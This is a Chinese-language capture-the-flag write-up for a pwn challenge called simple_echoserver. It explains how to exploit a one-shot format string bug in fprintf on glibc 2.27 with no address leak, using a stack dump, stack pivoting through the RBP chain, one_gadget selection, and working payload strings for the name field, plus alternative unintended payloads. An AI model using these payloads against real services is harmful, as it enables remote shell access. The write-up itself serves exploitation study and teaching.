 # Writeup

## 概述

（本题只是一些小伎俩，不像本次比赛其他几道PWN题那样硬核）  

sub_13C1 (loginfo) 函数有一个明显的格式化字符串漏洞，但是只触发了一次，而且远程环境的stderr被重定向到了/dev/null，因此无法泄露。  

程序是64位的ELF文件，保护全开（Full RELRO + PIE + NX enabled）。  
远程环境是 Ubuntu 18.04，[glibc 2.27](http://archive.ubuntu.com/ubuntu/pool/main/g/glibc/libc6_2.27-3ubuntu1_amd64.deb)。  

## 预期解

预期解是在**无泄漏**的情况下**只利用一次**格式化字符串漏洞获得shell。  

在0x1415处下断点（fprintf之前），观察此时栈的情况：  
```
00:0000│ rsp  0x7fffffffe150 ◂— 0x0
01:0008│      0x7fffffffe158 —▸ 0x555555558160 (global_userinfo) ◂— 0x636261 /* 'abc' */
02:0010│ rbp  0x7fffffffe160 —▸ 0x7fffffffe280 —▸ 0x7fffffffe2a0 —▸ 0x5555555554e0 (__libc_csu_init) ◂— endbr64
03:0018│      0x7fffffffe168 —▸ 0x555555555443 (serve+38) ◂— lea    rdi, [rip + 0xc5b]
04:0020│      0x7fffffffe170 ◂— 0x0
... ↓
06:0030│      0x7fffffffe180 —▸ 0x7fffffffe280 —▸ 0x7fffffffe2a0 —▸ 0x5555555554e0 (__libc_csu_init) ◂— endbr64
07:0038│      0x7fffffffe188 —▸ 0x7ffff7dcfa00 (_IO_2_1_stdin_) ◂— 0xfbad208b
08:0040│      0x7fffffffe190 ◂— 0xd68 /* 'h\r' */
09:0048│      0x7fffffffe198 —▸ 0x7ffff7a71148 (__GI__IO_file_underflow+296) ◂— test   rax, rax
0a:0050│      0x7fffffffe1a0 ◂— 0xf705fa00
0b:0058│      0x7fffffffe1a8 ◂— 0xffffffffffffffff
0c:0060│      0x7fffffffe1b0 —▸ 0x5555555550f0 (_start) ◂— endbr64
0d:0068│      0x7fffffffe1b8 ◂— 0xa /* '\n' */
0e:0070│      0x7fffffffe1c0 —▸ 0x7fffffffe260 —▸ 0x7fffffffe280 —▸ 0x7fffffffe2a0 —▸ 0x5555555554e0 (__libc_csu_init) ◂— ...
0f:0078│      0x7fffffffe1c8 —▸ 0x5555555550f0 (_start) ◂— endbr64
10:0080│      0x7fffffffe1d0 —▸ 0x7fffffffe380 ◂— 0x1
11:0088│      0x7fffffffe1d8 ◂— 0x0
... ↓
13:0098│      0x7fffffffe1e8 —▸ 0x555555555348 (readlong+127) ◂— mov    rcx, qword ptr [rbp - 0x18]
14:00a0│      0x7fffffffe1f0 —▸ 0x7ffff7dcfa00 (_IO_2_1_stdin_) ◂— 0xfbad208b
15:00a8│      0x7fffffffe1f8 —▸ 0x7fffffffe203 ◂— 0xffe3800000000000
16:00b0│      0x7fffffffe200 ◂— 0x333231 /* '123' */
17:00b8│      0x7fffffffe208 —▸ 0x7fffffffe380 ◂— 0x1
18:00c0│      0x7fffffffe210 ◂— 0x0
19:00c8│      0x7fffffffe218 —▸ 0x7ffff7a723f2 (_IO_default_uflow+50) ◂— cmp    eax, -1
1a:00d0│      0x7fffffffe220 ◂— 0x36 /* '6' */
1b:00d8│      0x7fffffffe228 —▸ 0x555555558163 (global_userinfo+3) ◂— 0x0
1c:00e0│      0x7fffffffe230 —▸ 0x7fffffffe260 —▸ 0x7fffffffe280 —▸ 0x7fffffffe2a0 —▸ 0x5555555554e0 (__libc_csu_init) ◂— ...
1d:00e8│      0x7fffffffe238 —▸ 0x55555555528d (readline+39) ◂— mov    r12d, eax
1e:00f0│      0x7fffffffe240 ◂— 0x10055556029 /* ')`UU' */
1f:00f8│      0x7fffffffe248 ◂— 0xc700f7c4629bc400
20:0100│      0x7fffffffe250 ◂— 0x0
... ↓
22:0110│      0x7fffffffe260 —▸ 0x7fffffffe280 —▸ 0x7fffffffe2a0 —▸ 0x5555555554e0 (__libc_csu_init) ◂— endbr64
23:0118│      0x7fffffffe268 —▸ 0x5555555553b3 (getuserinfo+80) ◂— mov    rdx, qword ptr [rbp - 8]
24:0120│      0x7fffffffe270 —▸ 0x7fffffffe380 ◂— 0x1
25:0128│      0x7fffffffe278 ◂— 0xc700f7c4629bc400
26:0130│      0x7fffffffe280 —▸ 0x7fffffffe2a0 —▸ 0x5555555554e0 (__libc_csu_init) ◂— endbr64
27:0138│      0x7fffffffe288 —▸ 0x5555555554d0 (main+30) ◂— mov    eax, 0
28:0140│      0x7fffffffe290 —▸ 0x7fffffffe380 ◂— 0x1
29:0148│      0x7fffffffe298 ◂— 0x0
2a:0150│      0x7fffffffe2a0 —▸ 0x5555555554e0 (__libc_csu_init) ◂— endbr64
2b:0158│      0x7fffffffe2a8 —▸ 0x7ffff7a05b97 (__libc_start_main+231) ◂— mov    edi, eax
2c:0160│      0x7fffffffe2b0 ◂— 0x1
2d:0168│      0x7fffffffe2b8 —▸ 0x7fffffffe388 —▸ 0x7fffffffe61f ◂— '/root/simple_echoserver'
2e:0170│      0x7fffffffe2c0 ◂— 0x100008000
2f:0178│      0x7fffffffe2c8 —▸ 0x5555555554b2 (main) ◂— push   rbp
30:0180│      0x7fffffffe2d0 ◂— 0x0
31:0188│      0x7fffffffe2d8 ◂— 0x224c5df7bd9bad4d
32:0190│      0x7fffffffe2e0 —▸ 0x5555555550f0 (_start) ◂— endbr64
33:0198│      0x7fffffffe2e8 —▸ 0x7fffffffe380 ◂— 0x1
34:01a0│      0x7fffffffe2f0 ◂— 0x0
... ↓
36:01b0│      0x7fffffffe300 ◂— 0x771908a2d13bad4d

```

当前函数调用栈是 main->sub_141D(serve)->sub_13C1(loginfo)， 0x7fffffffe160—>0x7fffffffe280—>0x7fffffffe2a0 是RBP链。  

利用这个RBP链可以进行**栈迁移**：通过%7$hhn修改0x7fffffffe280处的最低字节，经过两次"leave"指令之后（恰好在main函数返回之前），修改后的值被移入RSP。  
如果能在栈上布置一个one-gadget地址，那么只需栈迁移到这里即可得到shell。  

格式化字符串的输出宽度（field width）可以是一个整数，也可以用 **"\*"** 或 **"\*m$"** 表示从参数中读取。  
所以可以从栈里取一个libc的地址作为宽度然后接上一个常数宽度的格式化串，实现**libc地址+固定偏移**，然后利用"%n"写回栈里，这样就无需泄露地址了。  
（这个过程可能会输出几个GB的数据，但stderr已被重定向到/dev/null，所以速度很快）  

输出宽度以及printf的输出长度不能超过int类型的最大值（0x7fffffff），否则"%n"的写入会失败。  
所以上面的方法只能控制低4个字节的写入，需要找到一个高4个字节位于libc范围内的值的地址的作为写入的目标地址。  

注意到0x7fffffffe1f8处的值是指向栈的指针，这个值可以通过控制sub_12C9(readlong)函数的输入长度来改变。如果 **"Your phone: "的输入长度为24** ，这个值会指向0x7fffffffe218，而0x7fffffffe218处是一个libc地址。  
现在 **在栈上得到了一个指向libc地址的指针** ，可以使用上面的方法了。  

把0x7fffffffe218的值修改为one-gadget并完成栈迁移之后，```one_gadget libc-2.27.so``` 给出的三个gadget看起来都不满足：  
```
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

用 ```one_gadget -l 1 libc-2.27.so``` 搜索更多的gadgets，可以发现 0xe5863 满足条件（在main函数返回时）：  
```
0xe5863 execve("/bin/sh", r10, rdx)
constraints:
  [r10] == NULL || r10 == NULL
  [rdx] == NULL || rdx == NULL
```

> 0x10a38c 的 one-gadget 也可以用。  
> 虽然 \[rsp+0x70\] (\[0x7fffffffe290\]) 是 0x7fffffffe380 不是 NULL， 但是 \[rsp+0x70\] 的值是一个指向可读内存的指针 且 \[rsp+0x78\] 是 NULL, 这样在 execve "/bin/sh" 调用时, argv\[0\] 有效且  argv\[1\] 是 NULL。  

最终的 exp: （完整脚本在 [exp.py](./exp.py)）  
```
Your name: %3c%7$hhn%357715c%*30$c%26$n
Your phone: 000000000000000000000000
```

> 这里栈的情况如下：  
> （断点在0x1415）  
> ```
>  7$:    02:0010│ rbp  0x7fffffffe160 —▸ 0x7fffffffe280 —▸ 0x7fffffffe2a0
> 30$:    19:00c8│      0x7fffffffe218 —▸ 0x7ffff7a72300
> 26$:    15:00a8│      0x7fffffffe1f8 —▸ 0x7fffffffe218 —▸ 0x7ffff7a72300
> ```

成功率：1/32  
（栈迁移需要爆破栈地址半个字节，1/16概率；"\*" + "%n" 方法需要 libc 低4个字节位于signed int的正数范围内，1/2 概率 ）  


## 其他

题目没有出好造成了很多非预期解……  
（比赛中只有两个队是用预期解做出来的）  

vfprintf函数按顺序扫描并**立即**处理格式化字符串，在遇到**首个**"$"之前不复制参数，所以前面的"%n"可以修改后面的参数。  
当vfprintf遇到首个位置参数"$"时，vfprintf把**所有需要用到的参数都复制到了内部的缓冲区中**。从这之后，前面的"%n"不再会对后面的参数产生影响。  

借助栈里指向栈地址的指针（如 0x7fffffffe160 —▸ 0x7fffffffe280），可以先修改指向的栈地址的最后一个字节让它指向目标栈地址（在格式化字符串的首个"$"之前完成），然后通过修改后的栈地址修改目标栈地址处的值。  
这是一个例子：（1/32的成功率）
```
Your name: %c%c%c%c%c%150c%hhn%801828c%*48$c%43$n%61c%7$hhn
```
"%hhn"通过第7个参数（0x7fffffffe160 —▸ 0x7fffffffe280）把 0x7fffffffe280 里的值 从 0x7fffffffe2a0 改为 0x7fffffffe2a8（0x7fffffffe2a8里保存着main函数的返回地址）。  
然后"%\*48$c"从0x7fffffffe2a8(__libc_start_main_ret)取值作为宽度，"%43$n" 通过 0x7fffffffe280 里的指针修改 0x7fffffffe2a8 处的值为 0xe5863 的 one-gadget。  
最后的"%7$hhn"恢复0x7fffffffe280处的值为0x7fffffffe2a0，保持RBP链的正确从而能正常返回到main函数。  

<br />  

另一中方法不需要利用格式化字符串的"\*"。注意到栈里（0x7fffffffe1c8）有_start函数的地址，只需栈迁移到 0x7fffffffe1c0，main函数返回时就会重新进入_start，从而无限多次利用程序里的格式化字符串漏洞。  
之后可以分步修改一个指向栈的指针，然后部分修改栈上残留的程序地址为stderr的地址（相对于程序基地址偏移0x4040），再部分修改stderr为stdout即可进行泄露。  
这种方法成功率为1/4096，需要爆破半字节栈地址、半字节程序地址和半字节libc地址。  

<br />  

> 如果比赛期间早点搞明白这几个非预期，可能第二天会放一道Simple Echoserver V2，把"Your name: "的输入长度从256缩小到32，同时只允许调用一次有漏洞的fprintf： 
> ```
> void getuserinfo(struct userinfo *info) {
> 	puts("For audit, please provide your name and phone number: ");
> 	printf("Your name: ");
> 	// readline(info->name, 256);
> 	readline(info->name, 32);    // 32 bytes is enough
> 	printf("Your phone: ");
> 	info->phone = readlong();
> }
> 
> void loginfo(struct userinfo *info) {
> 	snprintf(global_buf, BUF_LEN, "[USER] name: %s; phone: %ld\n", info->name, info->phone);
> 	fprintf(stderr, global_buf);    // vuln!
> 	stderr = NULL;    // only log once
> }
> ```
